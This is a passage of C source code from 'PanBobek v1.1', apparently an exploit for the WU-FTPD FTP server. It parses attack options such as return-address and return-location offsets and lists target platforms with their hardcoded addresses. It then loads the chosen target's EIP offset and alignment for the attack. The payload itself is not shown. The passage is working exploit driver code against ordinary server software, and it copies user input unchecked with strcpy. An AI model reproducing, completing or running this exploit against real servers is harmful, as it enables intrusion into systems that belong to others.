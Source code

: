         opterr = retofs = retlocofs = 0;
        strcpy(login, "ftp");
        type = -1;
        port = 21;

        while ((ch = getopt(argc, argv, "l:f:s:t:o")) != -1)
            switch((char)ch)
            {
                case 'l':
                    strcpy(login, optarg);
                    break;

                case 't':
                    type = atoi(optarg);
                    break;

                case 'o':
                    port = atoi(optarg);
                    break;

                case 'f':
                    retofs = atoi(optarg);
                    break;

                case 's':
                    retlocofs = atoi(optarg);
                    break;

                case '?':
                default:
                    puts(usage);
                    exit(0);
            }

        argc -= optind;
        argv += optind;

        fprintf(stderr, "PanBobek v1.1 by venglin@freebsd.lublin.pl\n\n");

        if (type < 0)
        {
            fprintf(stderr, "Please select platform:\n");
            for (i=0;targ[i].os;i++)
            {
                fprintf(stderr, "\t-t %d : %s %s (%p / %p)\n", i,
                    targ[i].os, targ[i].version,
                    (void *)targ[i].ret,
                    (void *)targ[i].retloc);
            }
            exit(0);
        }

        fprintf(stderr, "Selected platform: %s with WUFTPD %s\n\n",
            targ[type].os, targ[type].version);

        eipoff = targ[type].eipoff;
        align = targ[type].align;
        ret = targ[type].ret;
        retloc = targ[type].retloc;
        retloc += retlocofs;
        ret += retofs;
